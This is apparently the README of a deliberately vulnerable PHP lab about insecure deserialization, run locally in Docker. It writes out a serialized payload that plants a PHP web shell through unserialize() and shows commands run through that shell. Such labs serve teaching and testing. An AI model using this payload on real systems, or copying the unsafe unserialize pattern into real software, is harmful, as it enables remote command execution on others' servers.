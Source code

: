 # Insecure Deserialization
tl;dr

User locally serializes some data and passes it to our app which uploads a shell.

## Files 

```
file.php
```
Blindly accepts anything and runs unserialize()

```
serialize.php
```
Generates a serialized exploit

## Installing

Git checkout this repo

```
cd into this repo
```

```
docker build -t insecure_deserialize:latest .
```

## Running

```
docker run -d insecure_deserialize:latest -p 33322:80
```

## Exploting

* First we serialize our payload with serialize.php
```
php serialize.php
```

* We then copy our payload and run it against our vulnerable site
* * If the payload executes the screen will return white
```
http://localhost:33322/file.php?u=O:4:"File":2:{s:8:"filename";s:16:"simple_shell.php";s:7:"content";s:35:"<?php echo system($_GET['cmd']); ?>";}
```

* We now have a simple cmd shell on our host and can execute away

```
http://localhost:33322/simple_shell.php?cmd=whoami
```
```
http://localhost:33322/simple_shell.php?cmd=ls -la
```